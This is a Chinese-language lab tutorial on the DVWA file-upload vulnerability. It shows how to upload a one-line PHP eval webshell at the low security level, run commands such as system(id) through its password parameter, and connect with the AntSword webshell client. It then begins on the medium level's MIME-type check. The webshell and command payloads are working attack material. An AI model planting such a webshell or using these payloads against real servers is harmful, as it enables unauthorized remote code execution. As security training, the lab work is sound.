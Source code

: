 ## 1 基于 DVWA 的 low 级别演示文件上传漏洞

进入 File Upload，直接上传任意文件 `webshell.php` 

```
<?php @eval($_POST[xuegod]);?>
```

> 此文件为执行 xuegod 的 php 文件

成功上传可看到回显

```
../../hackable/uploads/webshell.php succesfully uploaded!
```

与 URL  `http://192.168.1.76/DVWA/vulnerabilities/upload/#` 拼接即可访问文件

```
http://192.168.1.76/DVWA/vulnerabilities/upload/../../hackable/uploads/webshell.php
```

> 未写入可显数据，无回显

访问文件，在 HackBar 里利用密码操控目标

```
xuegod=phpinfo();
```

> 查看 PHP 信息

```
xuegod=system(id);
```

> 执行系统命令 `id`

使用 webshell 工具，蚁剑连接目标

```
URL地址：http://192.168.1.76/DVWA/vulnerabilities/upload/../../hackable/uploads/webshell.php
连接密码：xuegod
```

> 注意要用最新版，避免被反制

## 2 基于 DVWA 的 Medium 级别演示文件上传漏洞

进入 File Upload

**限制文件后缀名为 jpeg 或 png，此时无法上传 php 文件**

在 kali 中使用 mimetype 查看文件类型

```
┌──(root㉿Kali-24)-[~]
└─# mimetype xuegod.jpg 
xuegod.jpg: image/jpeg
```

>jpg 文件的文件类型为 `image/jpeg`
